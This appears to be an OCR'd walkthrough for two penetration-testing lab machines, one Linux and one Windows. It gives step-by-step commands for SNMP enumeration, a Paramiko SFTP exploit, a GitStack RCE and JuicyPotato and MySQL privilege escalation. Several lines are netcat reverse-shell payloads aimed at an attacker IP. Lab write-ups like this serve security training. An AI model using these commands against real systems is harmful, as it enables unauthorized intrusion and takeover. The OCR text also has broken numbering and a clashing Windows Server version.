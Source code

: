 ```bash
Rocinante (.82)
```
Operating SystemLinux
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Run UDP Scan - sudo nmap -sU 192.168.XX.221
2. Download snmp-mibs-downloader - apt-get install snmp-mibs-downloader
3. SNMP is enabled so run this - snmpwalk -v 1 -c public 192.168.XX.221 > snmpwalk.out
4. vim /etc/snmp/snmp.conf and and comment out the only uncommented line to use the mibs
mibs +ALL
1. Run snmpwalk -v 1 -c public 192.168.XX.221 hrSWRunParameters and you will get
HOST-RESOURCES-MIB::hrSWRunParameters.704 = STRING:
"/usr/local/bin/paramiko_2.4.0_sftpserver.py 0.0.0.0 2222 /etc/ssl/roci_rsa.key"
1. Edit proxychain - vim /etc/proxychains.conf and put http 192.168.XX.221 3128
2. Then run - proxychains curl http://127.0.0.1:2222 and you will get connected
|S-chain|-<>-192.168.32.221:3128-<><>-127.0.0.1:2222-<><>-OK
SSH-2.0-paramiko_2.4.0
1. Use Paramiko 2.4.1 exploit - https://www.exploit-db.com/exploits/45712
2. Edit the exploit
Get local - print(sftp.get('/home/roci/local.txt','local.txt'))
List Dir - print(sftp.listdir('/'))
1.  Run proxychains python exploit.py
2.  Or if you don’t want to edit too much in Step 8 to 10. Use this to get reverse shell
https://github.com/jm33-m0/CVE-2018-7750/blob/master/rce.py
1.  User shell!
Privilege Escalation to Root
1. Follow https://www.exploit-db.com/exploits/1518
2. Check /etc/mysql/mariadb.conf.d/50-server.cnf and /etc/mysql/my.cnf
3. Change the line “user=mysql” to “user=root” in the file /etc/my.cnf.
4. mysql -u root -p
5. You may follow this
https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-fu
nctions-and-setuid-binaries/
1. Root shell!

```bash
V1RUS (.84)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
HackTheBox’s Bounty
Exploit in Getting User
1. The https://192.168.XX.84/ is running a GitStack instance that is vulnerable to RCE -
https://www.exploit-db.com/exploits/43777
1. Change the value of IP and command variable.
2. command = "C:/GitStack/gitphp/nc.exe 192.168.XX.43 1337 -e cmd.exe"
3. User shell!
Privilege Escalation to Root
1. The machine is running Windows Server 2009 and the SeImpersonatePrivilege is
enabled.
1. Download JuicyPotato - https://github.com/ohpe/juicy-potato and send it to target
machine
1. Upload a nc binary to target machine and run the command: echo
C:/GitStack/gitphp/nc.exe 192.168.XX.43 1338 -c cmd.exe > rev.bat
1. Find CLSID for Windows Server 2019
2. Run JuicyPotato.exe -l 1338 -p C:\GitStack\gitphp\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!
